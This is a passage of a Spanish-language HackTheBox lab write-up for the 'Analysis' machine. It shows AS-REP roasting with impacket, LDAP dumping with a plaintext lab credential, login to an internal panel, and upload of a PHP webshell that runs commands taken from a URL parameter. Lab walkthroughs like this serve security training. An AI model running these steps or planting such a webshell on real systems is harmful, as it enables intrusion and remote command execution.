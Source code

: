 ```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/1643_vmware_Wq0VLFQpX4.png" alt="" width="547"><figcaption></figcaption></figure>

## LDAP Enumeration

Probaremos de enumerar el LDAP a través de **ldapdomaindump** con las credenciales obtenidas.

```bash
ldapdomaindump -u 'analysis.htb\technician' -p '97NTtl*4QP96Bv' 10.10.11.250 -o ldap
```

<figure><img src="../../../../../.gitbook/assets/1644_vmware_y9hpfXsPHv.png" alt=""><figcaption></figcaption></figure>

Revisando el grupo de "Remote Management Users" comprobamos que los usuarios que disponen de permisos para acceder por remoto son los siguientes, también comprobamos que el equipo se encuentra en francés.

<figure><img src="../../../../../.gitbook/assets/1645_vmware_pWwz2VXfcs.png" alt=""><figcaption></figcaption></figure>

## Exploitation of a customized analysis panel

Probaremos de autenticarnos en el panel de inicio de sesión de [http://internal.analysis.htb/employees/login.php ](http://internal.analysis.htb/employees/login.php)con las credenciales del usuario "technician".

<figure><img src="../../../../../.gitbook/assets/1646_vmware_zMekunKTxm.png" alt=""><figcaption></figcaption></figure>

Comprobamos que logramos acceder al panel de Analysis y de las tecnologías que utiliza el sitio web, entre ellos, lenguaje de programación PHP.

<figure><img src="../../../../../.gitbook/assets/1647_vmware_WgsCNFQlGQ.png" alt=""><figcaption></figcaption></figure>

### Creating a PHP webshell for command execution + Reverse Shell with Nishang

En el apartado de "SOC Report" vemos que podemos subir un archivo que se ejecutará en una Sandvoz por parte de los analistas SOC. Para ello crearemos un archivo PHP de una WebShell simple.

```php
<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

<figure><img src="../../../../../.gitbook/assets/1648_vmware_da0Zakm0mG.png" alt=""><figcaption></figcaption></figure>

Subiremos el archivo "cmd.php" de la WebShell que hemos creado.

<figure><img src="../../../../../.gitbook/assets/1649_vmware_OgrdrYSXEN.png" alt="" width="563"><figcaption></figcaption></figure>

Comprobaremos que se ha subido correctamente el archivo.
